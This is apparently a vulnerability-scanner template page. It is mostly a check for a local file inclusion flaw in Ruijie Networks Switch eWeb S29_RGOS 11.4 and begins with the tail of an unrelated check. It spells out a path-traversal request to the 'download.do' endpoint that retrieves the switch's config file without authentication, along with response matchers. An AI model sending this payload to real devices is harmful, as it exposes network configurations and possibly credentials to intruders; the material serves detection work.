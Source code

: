 **Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<url-pattern>/weaver/
- part - body

---

# Ruijie Networks Switch eWeb S29_RGOS 11.4 - Local File Inclusion

## Description

- Ruijie Networks Switch eWeb S29_RGOS 11.4 is vulnerable to local file inclusion and allows remote unauthenticated attackers to access locally stored files and retrieve their content via the 'download.do' endpoint.
- severity - high
- tags - ruijie,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/download.do?file=../../../../config.text

### Matchers

**Type - word**

- words
  1. filename="config.text"
  2. Content-Type: application/octet-stream
- part - header

**Type - word**

- words
  1. version S29_RGOS 11.4
- part - body
- condition - and

**Type - status**

- status
  1. 200

---
